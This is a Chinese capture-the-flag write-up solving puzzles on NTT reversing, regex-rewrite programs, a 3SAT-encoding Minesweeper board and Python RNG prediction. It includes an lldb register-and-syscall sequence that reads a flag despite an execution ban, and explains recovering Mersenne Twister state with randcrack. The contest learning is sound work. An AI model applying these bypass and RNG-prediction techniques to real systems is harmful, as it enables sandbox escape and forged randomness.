

我的不祥预感就这么成真了，这个怎么看怎么在做分治+蝴蝶变换，它就是个NTT。我已经好久没有写过NTT了，也不知道它会不会实现的时候给留一些不符合标准的情况，于是我伪代码复现一下，写成矩阵，再次暴力求逆。

```python
local_2c = 64
mat = [[1 if i == j else 0 for j in range(64)] for i in range(64)]
while local_2c > 1:
    local_2c //= 2
    local_28 = 0
    while local_28 < 64:
        for local_24 in range(0, local_2c):
            uvar3 = dat_00505280[local_2c + local_24]
            # local_38 = arr[local_28 + local_24]
            # local_34 = arr[local_28 + local_24 + local_2c]
            # arr[local_28 + local_24] = local_38 + local_34
            # arr[local_28 + local_24 + local_2c] = (local_38 - local_34) * uvar3
            for k in range(64):
                a = mat[local_28 + local_24][k]
                b = mat[local_28 + local_24 + local_2c][k]
                mat[local_28 + local_24][k] = (a + b) % mod
                mat[local_28 + local_24 + local_2c][k] = ((a - b + mod) * uvar3) % mod
        local_28 += local_2c * 2

matinv = matinverse(mat)
```

第三题：


看起来就是在和一个常数数组做卷积。我再次暴力求逆。这里卡了很久，因为我没发现它这次只给了前64个结果的值，并没有给出完整的128个。不过实际上已经够了。

```python
mat = build_forward(128)
matinv = matinverse(mat)
matback = build_backward(128)

v2 = [[ord('welcome to the world of polynomial'[i % 0x22])] for i in range(64)] + [[0]] * 64
v2_1 = matmul(mat, v2)

matv2 = copy.deepcopy(mat)
for i in range(128):
    for j in range(128):
        matv2[i][j] = matv2[i][j] * v2_1[i][0] % mod

matall = matmul(matback, matv2)
matall_leftmost = [row[:64] for row in matall[:64]]
inv_leftmost = matinverse(matall_leftmost)
```


## 禁止执行，启动

只做出flag1。只需要用lldb手动设置下几个寄存器，然后跳到syscall即可。

```
lldb
file /bin/busybox
process launch --stop-at-entry
expression
$rax=548;
$rdi=0;
$rsp=$rsp-1000;
$rsi=$rsp;
$rip=0x0000000000414e42;

ni
expression
$rax=1;
$rdi=$rax;
$rsi=$rsp;
$rdx=32;
$rip=0x0000000000414e42;

ni
```

第二个开始就需要找其他办法了。我一开始找到题目给的busybox的一个[cve](https://nvd.nist.gov/vuln/detail/CVE-2022-48174)，就是给shell输入一个特定内容会stack overflow，但是fuzz了一下没有搞懂如何使用。如果搞出来了看起来会是个很有意思的解。但proc mem确实比这样稳定多了。第三个我本来猜是手动mmap来跑，完全不知道有memfd这种东西。学到了好多。


## 关键词过滤喵，谢谢喵

第一题先把所有字符都替换成一个特殊字符。然后一点一点计算进位。

```
重复把【[^x]】替换成【x】喵
开始：
把【0(9*)x】替换成【1U\1】喵
把【1(9*)x】替换成【2U\1】喵
把【2(9*)x】替换成【3U\1】喵
把【3(9*)x】替换成【4U\1】喵
把【4(9*)x】替换成【5U\1】喵
把【5(9*)x】替换成【6U\1】喵
把【6(9*)x】替换成【7U\1】喵
把【7(9*)x】替换成【8U\1】喵
把【8(9*)x】替换成【9U\1】喵
把【^(9*)x】替换成【1U\1】喵
进位：
把【U(0*)9】替换成【U\g<1>0】喵
把【U(0*)(x|$)】替换成【\1\2】喵
如果看到【U】就跳转到【进位】喵
如果看到【x】就跳转到【开始】喵
把【^$】替换成【0】喵
谢谢喵
```

第二题由于我们要保留原字符串的信息，因此需要做一个转义。我猜出题人一定没有用过\377这个字符，那就用它了。虽然出题人可能想让我用emoji。转义好以后，我们像第一题那样，把长度计算出来，放在每一行的最开头。接下来如何排序呢？我选择从低位到高维基数排序，每一位内部用冒泡排序。非常暴力但能用。

```

重复把【\n\n】替换成【\n】喵
重复把【\n$】替换成【】喵
重复把【(^|[^\377])([^\377\n])】替换成【\1\377\2】喵
开始：
把【((?:^|\n)\d*)0(9*)((?:\376.)*)\377(.)】替换成【\g<1>1U\2\3\376\4】喵
...
把【((?:^|\n)\d*)8(9*)((?:\376.)*)\377(.)】替换成【\g<1>9U\2\3\376\4】喵
把【(^|\n)(9*)((?:\376.)*)\377(.)】替换成【\g<1>1U\2\3\376\4】喵
进位：
把【U(0*)9】替换成【U\g<1>0】喵
把【U(0*)(\376|\377|$)】替换成【\1\2】喵
如果看到【U】就跳转到【进位】喵
如果看到【\377】就跳转到【开始】喵

第0位基数冒泡排序开始：
把【(^|\n)(\d*[1-9]\d{0}(?:\376.)+)\n((?:\d*0)?\d{0}(?:\376.)+)】替换成【\1\3\n\2】喵
..
把【(^|\n)(\d*[9-9]\d{0}(?:\376.)+)\n(\d*8\d{0}(?:\376.)+)】替换成【\1\3\n\2】喵
如果看到【(^|\n)(\d*[1-9]\d{0}(?:\376.)+)\n((?:\d*0)?\d{0}(?:\376.)+)】就跳转到【第0位基数冒泡排序开始】喵
如果看到【(^|\n)(\d*[2-9]\d{0}(?:\376.)+)\n(\d*1\d{0}(?:\376.)+)】就跳转到【第0位基数冒泡排序开始】喵
...
如果看到【(^|\n)(\d*[9-9]\d{0}(?:\376.)+)\n(\d*8\d{0}(?:\376.)+)】就跳转到【第0位基数冒泡排序开始】喵
第1位基数冒泡排序开始：
...
第9位基数冒泡排序开始：
...

重复把【(^|\n)\d+】替换成【\1】喵
重复把【\376(.)】替换成【\1】喵

谢谢喵
```

第三题的思路也是很直接的，每种语言操作都可以写成一个精巧的替换规则。括号匹配可以用另一个特殊字符记录目前的括号层数。

但是注意有性能要求，随便一写可能会超过60秒限制。优化首先要做一个分发表，不要每次把所有指令跑一遍。另外括号跳回的时候不要一个字符一个字符地来，可以一次跳过多个非括号部分。

```
重复把【[^><+-\.\[\]]】替换成【】喵
把【^】替换成【S{0A}SB】喵

主循环：

如果看到【B\+】就跳转到【运行加法】喵
如果看到【B\-】就跳转到【运行减法】喵
如果看到【B\.】就跳转到【运行输出】喵
如果看到【B\[】就跳转到【运行左方括号】喵
如果看到【B\]】就跳转到【运行右方括号】喵
如果看到【B<】就跳转到【运行左移】喵

默认运行右移：
把【([^S]*)S((?:{\d+})*){(\d+)A}{(\d+)}((?:{\d+})*)S(.*)B>(.*)】替换成【\1S\2{\3}{\4A}\5S\6>B\7】喵
把【([^S]*)S((?:{\d+})*){(\d+)A}S(.*)B>(.*)】替换成【\1S\2{\3}{0A}S\4>B\5】喵
如果看到【B[^$]】就跳转到【主循环】喵

运行左移：
把【([^S]*)S((?:{\d+})*){(\d+)}{(\d+)A}((?:{\d+})*)S(.*)B<(.*)】替换成【\1S\2{\3A}{\4}\5S\6<B\7】喵
把【([^S]*)S{(\d+)A}((?:{\d+})*)S(.*)B<(.*)】替换成【\1S{0A}{\2}\3S\4<B\5】喵
如果看到【B[^$]】就跳转到【主循环】喵

运行加法：
把【([^S]*)S((?:{\d+})*){(\d+)A}((?:{\d+})*)S(.*)B\+(.*)】替换成【\1S\2{\3IA}\4S\5+B\6】喵
加数开始：
把【{I】替换成【{1】喵
把【0I】替换成【1】喵
把【1I】替换成【2】喵
把【2I】替换成【3】喵
把【3I】替换成【4】喵
把【4I】替换成【5】喵
把【5I】替换成【6】喵
把【6I】替换成【7】喵
把【7I】替换成【8】喵
把【8I】替换成【9】喵
把【9I】替换成【I0】喵
如果看到【I】就跳转到【加数开始】喵
如果看到【B[^$]】就跳转到【主循环】喵

运行减法：
把【([^S]*)S((?:{\d+})*){(\d+)A}((?:{\d+})*)S(.*)B-(.*)】替换成【\1S\2{\3DA}\4S\5-B\6】喵
减数开始：
把【1D】替换成【0】喵
把【2D】替换成【1】喵
把【3D】替换成【2】喵
把【4D】替换成【3】喵
把【5D】替换成【4】喵
把【6D】替换成【5】喵
把【7D】替换成【6】喵
把【8D】替换成【7】喵
把【9D】替换成【8】喵
把【0D】替换成【D9】喵
如果看到【D】就跳转到【减数开始】喵
重复把【{0(\d)】替换成【{\1】喵
如果看到【B[^$]】就跳转到【主循环】喵

运行输出：
把【([^S]*)S((?:{\d+})*){(\d+)A}((?:{\d+})*)S(.*)B\.(.*)】替换成【\1{\3}S\2{\3A}\4S\5.B\6】喵
如果看到【B[^$]】就跳转到【主循环】喵

运行左方括号：
把【([^S]*)S((?:{\d+})*){0A}((?:{\d+})*)S(.*)B\[(.*)】替换成【\1S\2{0A}\3S\4[Br\5】喵
把【([^S]*)S((?:{\d+})*){([1-9]\d*)A}((?:{\d+})*)S(.*)B\[(.*)】替换成【\1S\2{\3A}\4S\5[B\6】喵
匹配右跳：
把【([^S]*)S((?:{\d+A?})*)S(.*)B(r*)r([^\[\]]*)\](.*)】替换成【\1S\2S\3\5]B\4\6】喵
把【([^S]*)S((?:{\d+A?})*)S(.*)B(r*)r([^\[\]]*)\[(.*)】替换成【\1S\2S\3\5[Brr\4\6】喵
如果看到【Br】就跳转到【匹配右跳】喵
如果看到【B[^$]】就跳转到【主循环】喵

运行右方括号：
把【([^S]*)S((?:{\d+})*){0A}((?:{\d+})*)S(.*)B\](.*)】替换成【\1S\2{0A}\3S\4]B\5】喵
把【([^S]*)S((?:{\d+})*){([1-9]\d*)A}((?:{\d+})*)S(.*)B\](.*)】替换成【\1S\2{\3A}\4S\5Bl]\6】喵
匹配左跳：
把【([^S]*)S((?:{\d+A?})*)S(.*)\[([^\[\]]*)Bl(l*)(.*)】替换成【\1S\2S\3B\5[\4\6】喵
把【([^S]*)S((?:{\d+A?})*)S(.*)\]([^\[\]]*)Bl(l*)(.*)】替换成【\1S\2S\3Bll\5]\4\6】喵
如果看到【Bl】就跳转到【匹配左跳】喵
如果看到【B[^$]】就跳转到【主循环】喵

结束：

把【([^S*])S.*】替换成【\1】喵

把【\{32\}】替换成【 】喵
...
把【\{122\}】替换成【z】喵
把【\{10\}】替换成【\n】喵

谢谢喵

```


## 扫雷III

本场比赛（我做出来的题中）我认为最有趣的。

随便点一点就会发现图非常有规律，但说不出是什么规律。我们首先发现图的中间经常有很多大的空白块。把这些空白块先都想办法点了能够让我们看得更清楚。我这里使用的空白块消除方法是以下四个pattern：

```js
const auto_detect_patterns = [
  /// below: helps you open very large regions.
  ['1.. ',
   '1..@',
   '1.. '],
  ['111',
   '...',
   '...',
   ' @ '],
  [' ..1',
   '@..1',
   ' ..1'],
  [' @ ',
   '...',
   '...',
   '111'],
];


function detect_patterns(lboard) {
  for(const pattern of auto_detect_patterns) {
    const h = pattern.length;
    const w = pattern[0].length;
    for(let i = 0; i + h <= lboard.length; ++i) {
      for(let j = 0; j + w <= lboard[0].length; ++j) {
        let ok = true;
        let click_i = -1;
        let click_j = -1;
        for(let ii = 0; ii < h && ok; ++ii) {
          for(let jj = 0; jj < w && ok; ++jj) {
            if(pattern[ii][jj] === ' ') continue;
            else if(pattern[ii][jj] === '@' && lboard[i + ii][j + jj] === '.') {
              click_i = i + ii;
              click_j = j + jj;
            }
            else {
              ok = (lboard[i + ii][j + jj] === pattern[ii][jj]);
            }
          }
        }
        if(ok && click_i !== -1) return [click_i, click_j];
      }
    }
  }
  return null;
}
```

也就是发现三个紧挨着的1，且它们的一边有三行没有开过的格子，那离得最远的中间那个格子就可以开，并且开了一定能够打开一个大块。

就这样批量开一开，最终我们能得到这样一个轮廓：



总共有18个列结构，每一个列结构都有两种可能的奇偶性，但是如果你不能确定到底是哪种，那只靠猜是猜不完的。但是右边的结构非常有意思。到底是什么意思呢，从这里开始就需要想象力了。右侧的这些三个一组的“手臂”上不时长的“关节”，意思可能是“取反”。最终针对左边连的这三个变量（18个中取三个），计算了一个异或，取了若干次反，构造了一个assertion。我草，这不会是3SAT吧？？

事实上正是如此，每一条11111..1都是一根传输奇偶性的“电线”，2x2,xxx,2x2的中间结构是二维平面上的via，中间的是分线器，右边的结构是取反和and，最后是一个assertion。我们不需要知道很多细节，只要猜出它是3SAT，做一些模式匹配，然后枚举求解一下看看是不是唯一解就行了。

```js
const pattern_leftblock = [
  '12',
  '2F',
  '3F',
  '2F',
  '11'
];

const pattern_notgate = [
  '1121211',
  '2F3F3F2',
];

function find_single_pattern(lboard, pattern, callback) {
  const h = pattern.length;
  const w = pattern[0].length;
  for(let i = 0; i + h <= lboard.length; ++i) {
    for(let j = 0; j + w <= lboard[0].length; ++j) {
      let ok = true;
      for(let ii = 0; ii < h && ok; ++ii) {
        for(let jj = 0; jj < w && ok; ++jj) {
          if(pattern[ii][jj] === ' ') continue;
          else {
            ok = (lboard[i + ii][j + jj] === pattern[ii][jj]);
          }
        }
      }
      if(ok) {
        callback(i, j);
      }
    }
  }
}

function SAT_analyze(lboard) {
  console.log('begin analyzing 3sat patterns.');
  const lbs = Array.from(Array(lboard.length), () => []);
  find_single_pattern(lboard, pattern_leftblock, (x, y) => lbs[x].push(y));
  find_single_pattern(lboard, pattern_notgate, (x, y) => lbs[x + 1].push(['not', y]));
  console.log(lbs);

  // brute force SAT solving
  for(let s = 0; s < (1 << 18); ++s) {
    let ok = true;
    for(let i = 10; i + 12 < lboard.length && ok; i += 21) {
      console.assert(lbs[i].length > 0);
      const clause0 = (lbs[i][0] - 2) / 6;
      const clause1 = (lbs[i + 6][0] - 2) / 6;
      const clause2 = (lbs[i + 12][0] - 2) / 6;
      const neg0 = (lbs[i].length > 1) ? 1 : 0;
      const neg1 = (lbs[i + 6].length > 1) ? 1 : 0;
      const neg2 = (lbs[i + 12].length > 1) ? 1 : 0;
      if((((s >> clause0 & 1) ^ neg0) &
          ((s >> clause1 & 1) ^ neg1) &
          ((s >> clause2 & 1) ^ neg2))) {
        ok = false;
      }
    }
    if(ok) {
      console.log(' * solved s = %d', s);
      for(let i = 0; i < 18; ++i) {
        console.log(' var[%d] = %d', i, s >> i & 1);
      }
    }
  }
}
```

事实证明就是唯一解。这样我们就可以精确地开出每一列的奇偶性，不用碰运气了。然后用自动扫（需要配合一些手动推理），就可以全部搞定。

```js
  /// below: helps you get out of some stuck.
  ['2332',
   'F321',
   'F @ '],
  ['F @ F',
   'F334F',
   '422F3'],
  ['3F1',
   ' 22',
   '@21',
   ' 32',
   'FF1'],
  ['@@4',
   ' 2F',
   ' 32',
   '4F1'],
```

一定要写脚本的，手玩会眼花。可以欣赏一下最终的样子：


## 小章鱼的曲奇

这题才是往年的扫雷题。python默认的不安全random可以用624*32个bit精确还原状态，用randcrack包就可以。2500个字符刚好是够的。这样做出第一题是很简单的。第二题要求我们给出一个不一样的seed，然后两个并排来做个干扰。所谓“不一样的seed”，实际上是有等价形式的——如果是数字类型，[负数会被取绝对值](https://github.com/python/cpython/blob/main/Modules/_randommodule.c#L307)，所以输进去的时候加个负号就行，就变成了第一题。第三题不知道出题人什么意思，但只要把第一段数原样喂进去就行。


## Others

不会MC，还晕3d，哭了。现学尝试开全局光照，再用命令杀一杀小怪，但还是没有头绪，而且玩十分钟晕了一下午，难顶。求mc大佬以后带一下我。

逝界计划小看了jinja2的过滤浪费了好多时间，然后在home-assistant的github里搜索file关键词，把所有匹配到的集成都读了一遍，大概有好几十个，没有发现一个能用的。但是nmap集成里并没有file关键词。




为了做题专门学了typescript，发现真的好有意思。对于没有系统学过类型理论的人，第一次见到动态语言加上类型系统能玩出什么花来，比如官方文档里通过结构体的参数名字定义一个只接受xxChanged的event register，而且callback还能自动推断出该有的参数类型，编译期就能把这些检查都做了。这简直太酷了，很符合我对编程语言的想象。

```typescript
type PropEventSource<Type> = {
    on<Key extends string & keyof Type>
        (eventName: `${Key}Changed`, callback: (newValue: Type[Key]) => void): void;
};

declare function makeWatchedObject<Type>(obj: Type): Type & PropEventSource<Type>;

const person = makeWatchedObject({
  firstName: "Saoirse",
  lastName: "Ronan",
  age: 26
});

person.on("firstNameChanged", newName => { // (parameter) newName: string
    console.log(`new name is ${newName.toUpperCase()}`);
});

person.on("ageChanged", newAge => { // (parameter) newAge: number
    if (newAge < 0) {
        console.warn("warning! negative age");
    }
})
```

最后感谢主办方，感谢华子:)